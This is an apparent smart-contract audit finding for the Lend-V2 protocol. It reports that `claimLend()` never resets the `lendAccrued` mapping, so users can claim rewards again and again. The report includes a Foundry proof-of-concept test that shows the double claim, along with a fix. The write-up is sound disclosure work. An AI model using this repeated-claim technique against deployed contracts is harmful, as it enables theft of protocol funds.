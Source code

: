 Scrawny Red Sloth

High

# `claimLend()` fails to reset `lendAccrued` mapping resulting in token theft

### Summary

During borrows and supply, users gets lend tokens accrued for them based on index deltas on subsequent operations. These lend tokens can later be claimed via the `claimLend()` function. However, the `lendAccrued` mapping used to track these tokens is left unreset after claim.


### Root Cause

During borrows and supply, the `lendAccrued` is updated for users as follows:
[`distributeSupplierLend()`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/LendStorage.sol#L333-L334):
```solidity
        uint256 supplierAccrued = add_(lendAccrued[supplier], supplierDelta);
        lendAccrued[supplier] = supplierAccrued;
```
[`distributeBorrowerLend()`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/LendStorage.sol#L373-L374):
```solidity
        uint256 borrowerAccrued = add_(lendAccrued[borrower], borrowerDelta);
        lendAccrued[borrower] = borrowerAccrued;
```

These can later be [claimed as follows](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L399-L407) in `claimLend()`:
```solidity
        for (uint256 j = 0; j < holders.length;) {
            uint256 accrued = lendStorage.lendAccrued(holders[j]);
            if (accrued > 0) {
                grantLendInternal(holders[j], accrued);
            }
            unchecked {
                ++j;
            }
        }
```
Notice that if the holder has positive balance, the function internally calls [`grantLendInternal()`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L420-L423):
```solidity
    function grantLendInternal(address user, uint256 amount) internal returns (uint256) {
        address lendAddress = LendtrollerInterfaceV2(lendtroller).getLendAddress();
        uint256 lendBalance = IERC20(lendAddress).balanceOf(address(this));

        if (amount > 0 && amount <= lendBalance) {
>>          // @audit fails to clear mapping before transfer
            IERC20(lendAddress).safeTransfer(user, amount);
            return 0;
        }
        return amount;
    }
```
However as seen these tokens are distributed yet the mapping remain unmodified. 


### Internal Pre-conditions

1. User has accrued lend tokens
2. Mapping is not reset during claim


### External Pre-conditions

1. User attempts to claim their accrued lend tokens


### Attack Path

1. User attempts to claim their accrued lend tokens
2. Mapping remain unchanged
3. User calls `claimLend()` recursively stealling tokens


### Impact

Users manage to claim tokens beyond what they have accrued so far thereby stealing from the protocol.


### PoC

1. Add the folloing test in `test/mocks/TestLendAccrual.t.sol`:
```solidity
    function test_claimLend_leaves_lendAccrued_unupdated_resulting_in_token_theft() public {
        // Supply tokens with two users
        uint256 supplyAmount = 1000e18;
        (, address lToken) = _supply(supplyAmount, user2);
        _supply(supplyAmount, user1);

        // Advance time
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Get initial LEND token balance
        address lendToken = lendtroller.getLendAddress();
        uint256 initialBalance = IERC20(lendToken).balanceOf(user1);

        // Record accrued LEND before claiming
        vm.startPrank(user1);
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);

        // first claim
        coreRouter.claimLend(holders, lTokenArray, false, true);

        uint256 lendAccrued = lendStorage.lendAccrued(user1);

        uint256 currentBalance = IERC20(lendToken).balanceOf(user1);

        // Verify claimed amount matches accrued amount
        assertEq(currentBalance - initialBalance, lendAccrued);

        // second claim immediately
        coreRouter.claimLend(holders, lTokenArray, false, true);

        uint256 finalBalance = IERC20(lendToken).balanceOf(user1);

        // assert user has twice the balance
        assertEq(finalBalance, 2 * currentBalance);
        vm.stopPrank();
    }
```
2. Run: `forge test --mt test_claimLend_leaves_lendAccrued_unupdated_resulting_in_token_theft -vvvv`


### Mitigation

Modify as follows:
```diff
    function grantLendInternal(address user, uint256 amount) internal returns (uint256) {
        address lendAddress = LendtrollerInterfaceV2(lendtroller).getLendAddress();
        uint256 lendBalance = IERC20(lendAddress).balanceOf(address(this));

        if (amount > 0 && amount <= lendBalance) {
            // Clear the accrued amount for this user
+           lendStorage.clearAccrued(user); // You'll need to implement this function
            IERC20(lendAddress).safeTransfer(user, amount);
            return 0;
        }
        return amount;
    }
```